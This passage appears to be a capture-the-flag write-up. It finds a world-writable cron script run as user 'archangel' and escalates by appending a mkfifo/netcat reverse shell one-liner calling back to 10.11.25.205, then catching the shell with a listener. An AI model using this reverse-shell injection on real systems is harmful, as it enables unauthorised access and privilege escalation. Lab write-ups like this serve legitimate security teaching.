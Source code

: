 ```bash
drwxr-xr-x  2 root root 4096 Nov 16 15:30 .
drwxr-xr-x 81 root root 4096 Feb  4 17:45 ..
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder

/etc/cron.monthly:
total 12
drwxr-xr-x  2 root root 4096 Nov 16 15:30 .
drwxr-xr-x 81 root root 4096 Feb  4 17:45 ..
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder

/etc/cron.weekly:
total 16
drwxr-xr-x  2 root root 4096 Nov 16 16:07 .
drwxr-xr-x 81 root root 4096 Feb  4 17:45 ..
-rw-r--r--  1 root root  102 Nov 16  2017 .placeholder
-rwxr-xr-x  1 root root  723 Apr  7  2018 man-db

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

*/1 *   * * *   archangel /opt/helloworld.sh
...
```

There is cronjob that running as user `archangel` at `/opt/helloworld.sh`.  Let's check the permissions of the files.

```bash
www-data@ubuntu:/opt$ ls -la
ls -la
total 16
drwxrwxrwx  3 root      root      4096 Nov 20 10:35 .
drwxr-xr-x 22 root      root      4096 Nov 16 15:39 ..
drwxrwx---  2 archangel archangel 4096 Nov 20 15:04 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20 10:35 helloworld.sh
```

We can write the file. Let's inject our reverse shell command so we can get the `archangel` shell back.

```bash
www-data@ubuntu:/opt$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.25.205 5550 >/tmp/f" >> helloworld.sh
```

Set up `netcat` listener and wait.

```bash
$ nc -lnvp 5550      
listening on [any] 5550 ...
connect to [10.11.25.205] from (UNKNOWN) [10.10.78.209] 45534
/bin/sh: 0: can't access tty; job control turned off
$ whoami
archangel
```
